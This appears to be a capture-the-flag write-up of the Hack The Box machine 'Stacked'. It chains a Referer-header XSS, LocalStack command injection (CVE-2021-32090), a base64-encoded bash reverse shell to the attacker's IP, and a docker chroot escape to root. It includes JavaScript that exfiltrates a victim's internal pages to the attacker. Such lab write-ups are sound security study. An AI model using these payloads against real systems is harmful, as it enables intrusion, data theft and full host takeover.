 ```yaml
---
title: htb stacked
author: Yuchao
date: 2022-03-29 11:33:00 +0800
categories: [sec]
tags: [htb, aws, localstack]
math: true
mermaid: true
---
```


## recon

#### nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.112
nmap -p 22,80,2376 -sCV -oA scans/nmap-tcpscripts 10.10.11.112
```
- 22/tcp   open  ssh; 80/tcp   open  http; 2376/tcp open  docker

#### feroxbuster, directory discovery
``` feroxbuster -u http://stacked.htb ```

#### wfuzz, host discovery
``` wfuzz -H "Host: FUZZ.stacked.htb" -u http://stacked.htb -w /usr/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26```
- hide word length 26 responses
- find host: portfolio.stacked.htb - TCP 80
- a local stack development page.
- <https://github.com/localstack/localstack>
- serverless: run services often used for Serverless apps (iam, lambda, dynamodb, apigateway, s3, sns)

## XSS

#### recon for XSS
- input area, and interesting headers.
- add payload as ``` <img src="http://{attackerIP}/fieldname_or_header_name"> ``` in different places.
- send the request.
attacker machine
``` sudo python3 -m http.server 80 ```
- 80 as we did not specify port in set payload
- wait a while
- ``` "GET /referer HTTP/1.1" 404 - ```
- so the ONLY field vulnerable to XSS is: Header -> referer.
- - run ``` date ``` two times, culculate the XSS victim(background cron) activity interval.
- interesting material below.
- <https://www.horizon3.ai/unauthenticated-xss-to-remote-code-execution-chain-in-mautic-3-2-4/>

#### find out what the URL the victim is looking at.
- Burpsuite set header Referer: <script src="http://{attackerIP}/pwn.js"></script>
- ``` python3 -m http.server 80 ``` at pwn.js location, for victime to run pwn.js.
- use nc to accept the victim`s response.

xmlhttprequest:
- like background web request by browser.
```javascript
XMLHttpRequest.open(method, url, async)
// if async = false, the script itself will not go foward, until the response. Otherwise, we will get null.
XMLHttpRequest.send(body)
// body: Optional, A body of data to be sent in the XHR request.
```

Method 1:(lucky there is a referer header)
```javascript 
<script src="http://10.10.14.6/xss.js"></script> 
```
- in the victim`s referer, we can see the response is from: "/read-mail.php?id=5"

Method 2: (more generic)
```javascript
var exfilreq = new XMLHttpRequest();    
exfilreq.open("GET", "http://{attackerIP}/" + document.location, false);    
exfilreq.send(); 
```
- set above script as pwn.js
- when we nc at 80, can see the victim`s current page appended.
- in nc, we get "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1"
- For victim visited "http://{attackerIP}/http://mail.stacked.htb/read-mail.php?id=2"

This step we find out the inner email host name. (mail.stacked.htb)

#### Let victim visit inner pages for us.

```javascript
// Make target to visit the target
var target = "{the address we want victim to visit}"
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send()
var response=req1.responseText;
// Send what victim saw back to us
var req2 = new XMLHttpRequest();
req2.open('POST', "http://{attackerIP}:8000/", false)
req2.send(response);
```
- set target to "http://mail.stacked.htb/read-mail.php?id=1"
- read the mail.
- find new host "s3-testing.stacked.htb"
- a s3 domain.


## LocalStack vulnerability

#### Find CVE-2021-32090 
- locatstack version v0.12.6
- CVE search
- CVE-2021-32090 
- The dashboard component of StackLift LocalStack 0.12.6 allows attackers to inject arbitrary shell commands via the functionName parameter.

#### configure aws
```bash
apt install awscli
aws configure 
aws [command] [subcommand] --endpoint-url http://s3-testing.stacked.htb
```
- as the config said "SERVICES=serverless"
``` aws lambda list-functions --endpoint-url http://s3-testing.stacked.htb ```

#### Create lambda(this box only has nodejs runtime)
- <https://aws.amazon.com/lambda/>
- <https://docs.aws.amazon.com/cli/latest/reference/lambda/create-function.html>

create random lambda function
```javascript
//example from official website
exports.handler = async function(event, context){
  console.log("Event: \n" + JSON.stringify(event, null ,2))
  return context.logStreamName
}
```
{: .nolineno file="index.js" }
zip index.js
``` zip index.zip index.js ```
create this function at endpoint
```bash
aws lambda create-function \
    --function-name 'a' \
    --zip-file fileb://index.zip \
    --handler index.handler \
    --role localstackdonotmatter\
    --runtime nodejs10.x
```
invoke the function
```bash
aws lambda --endpoint=http://s3-testing.stacked.htb \
  invoke --function-name a output
```
check if it run properly
``` cat output ```

PS: 
- if use python script, set "Runtime": "python3.7", but this machine does not have python runtime, so there would be an error.
- A Lambda function can be thought of as spinning up a relatively empty container, running the function, and then tearing that container down. So it`s not properate to make a reverse shell by lambda.

#### Exploit CVE-2021-32090 

The idea here is that there is a command injection in the "function name", will be triggered when it’s displayed on the web dashboard.
- In previous config file, we know that dashboard is at port 8080 on victim`s machine.
- ref: <https://blog.sonarsource.com/hack-the-stack-with-localstack>

how:
- 1. send user to dashboard by XSS. 
- In referer header add: <script>document.location="http://127.0.0.1:8080"</script>
- 2. command inection in "function name".
- Test simple wget command first.

## reverse shell

#### execute shell
```bash
echo -n 'bash -i >& /dev/tcp/{attackerIP}/{port} 0>&1' | base64 -w 0
```
- add some space to avoid '+' or '=' sign, maybe bad character.(maybe not needed)

invoke the command
```bash
--function-name 'echo -n {base64 reverseshell} | base64 -d | bash'
```

#### upgrade shell
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
```

#### make the shell can clear screen
```
export TERM=xterm
```

Now in the localstack container.

## privesc

#### PSPY
- pspy - unprivileged Linux process snooping
- <https://github.com/DominicBreuker/pspy>
- download to victim, can not run at /dev/shm (noexec), but can run at /tmp
- find that handler was run by root.
- so add handler the reverse shell.
```bash
aws lambda create-function \
    --function-name '{not this time}' \
    --zip-file fileb://index.zip \
    --handler '$({the reverse shell command as before})' \
    --role localstackdonotmatter\
    --runtime nodejs10.x
```
- get root of the container.
- On gtfobins.io
```bash
# Shell
# It can be used to break out from restricted environments by spawning an interactive system shell.
# The resulting is a root shell.
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
then get the system root.

